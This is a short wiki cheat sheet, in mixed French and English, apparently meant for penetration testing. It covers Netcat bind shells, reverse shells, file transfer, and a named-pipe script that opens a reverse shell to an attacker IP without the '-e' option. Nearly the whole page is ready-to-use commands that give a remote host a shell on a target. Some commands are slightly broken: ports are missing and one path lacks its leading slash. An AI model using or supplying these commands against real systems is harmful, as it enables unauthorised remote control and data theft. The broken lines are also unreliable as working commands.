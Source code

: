 ```yaml
---
title: Netcat
permalink: /Netcat/
---
```


Bind shell
----------

Sur la machine attaquante:

``` bash
nc -nv 192.168.30.229
```

Sur la machine cible

``` bash
nc -nlvp 443 -e /bin/bash
```

Reverse shell
-------------

On the attacker machine (will receive the shell):

``` bash
nc -nlvp 443
```

Sur la machine cible

``` bash
nc -nv 192.168.30.229 -e /bin/bash
```

Transfert de fichiers
---------------------

The following commands can be used to transfer a file

``` bash
nc -nlvp 443 > incoming
nc -nv 192.168.30.229 < outgoing
```

Si l'option **-e** n'est pas disponible il est possible d'utiliser ce script:

``` bash
#!/bin/bash

mknod /tmp/backpipe p
bin/sh 0</tmp/backpipe | nc 192.168.30.229 443 1>/tmp/backpipe
```

[Category:Outils](/Category:Outils "wikilink") [Category:Exploitation](/Category:Exploitation "wikilink")